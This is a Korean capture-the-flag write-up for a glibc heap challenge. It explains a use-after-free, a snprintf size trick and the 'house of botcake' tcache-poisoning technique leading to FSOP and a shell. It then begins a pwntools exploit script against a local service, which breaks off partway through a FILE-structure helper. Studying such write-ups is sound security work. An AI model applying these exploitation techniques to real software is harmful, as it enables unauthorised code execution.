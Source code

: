 1번 메뉴에서 코드의 흐름을 보시면, `free` -> `malloc` -> `condition check` -> `substitution` 로 이루어져 있습니다. 이 때 `condition check`를 실패하면, 대입이 이루어지지 않아 `UAF`가 발생합니다.

이 문제에 `edit` 함수가 없기 때문에 `tcache poisoning`을 위해 다른 방법을 강구해야 합니다. 이 문제의 제목에서 [`house of botcake`](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c) 기법을 떠올릴 수 있습니다. 기법에 대한 설명은 `how2heap`의 poc 코드(house_of_botcake.c)로 대체하겠습니다. `house of botcake`를 위해서는 두 가지 크기의 청크를 할당받을 수 있어야 합니다. 이 문제에서 청크의 크기를 아래와 같이 설정하고 있습니다.

```c

n = snprintf(buf2, 0x100, "bot_cake submit food name : %s", buf);

ptr = malloc(n < 0x100 ? 0x100 : n);

```

이 때 `snprintf`의 반환값은 실제 저장된 수가 리턴되는 것이 아니라, 버퍼가 충분한 상황에서의 출력된 문자 수가 리턴됩니다. 따라서 n은 0x109 이상의 값을 가질 수 있기 때문에 0x110, 0x120의 크기를 가지는 청크를 할당할 수 있습니다. 이를 이용하여 FSOP를 진행하여 쉘을 따냅니다.

  

## ex.py

  

```python

from pwn import *

  

binary = './prob'

context.binary = binary

context.arch = 'amd64'

# context.log_level = 'debug'

context.terminal = ['tmux', 'splitw', '-h']

  

p = remote("localhost", 8010)

#p = process(binary)

l = ELF('./libc.so.6')

  

def FSOP_struct(flags=0, _IO_read_ptr=0, _IO_read_end=0, _IO_read_base=0,

                _IO_write_base=0, _IO_write_ptr=0, _IO_write_end=0, _IO_buf_base=0, _IO_buf_end=0,

                _IO_save_base=0, _IO_backup_base=0, _IO_save_end=0, _markers=0, _chain=0, _fileno=0,

                _flags2=0, _old_offset=0, _cur_column=0, _vtable_offset=0, _shortbuf=0, lock=0,

                _offset=0, _codecvt=0, _wide_data=0, _freeres_list=0, _freeres_buf=0,

                __pad5=0, _mode=0, _unused2=b"", vtable=0, more_append=b""):

    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)

    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
```